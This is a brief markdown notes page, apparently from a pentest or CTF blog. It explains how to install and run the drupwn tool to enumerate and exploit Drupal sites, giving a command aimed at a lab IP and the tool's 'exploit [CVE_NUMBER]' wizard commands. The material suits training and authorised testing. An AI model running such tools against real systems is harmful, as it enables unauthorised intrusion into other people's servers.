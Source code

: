 ```yaml
---
description: >-
  Drupal Exploitation
title: Drupal Exploitation              # Add title here
date: 2022-08-07 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Drupal Exploitation]                     # Change Templates to Writeup
tags: [exploitation, drupal, drupwn]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Drupal exploitation/enumeration
Github: 
[drupwn](https://github.com/immunIT/drupwn)

In order to make this exploit working first run the python setup.py script:

```python
python setup.py install
```

Then run the enumeration/exploitation binary with this command:
```bash
./drupwn --target http://10.0.160.196 --mode <exploit/enum>
```

Finally use the wizard instructions:
```bash
Commands available: list | quit | check [CVE_NUMBER] | exploit [CVE_NUMBER]
```

Example:
[ECHO CTF tweek](https://echoctf.red/target/24/writeup/read/13)
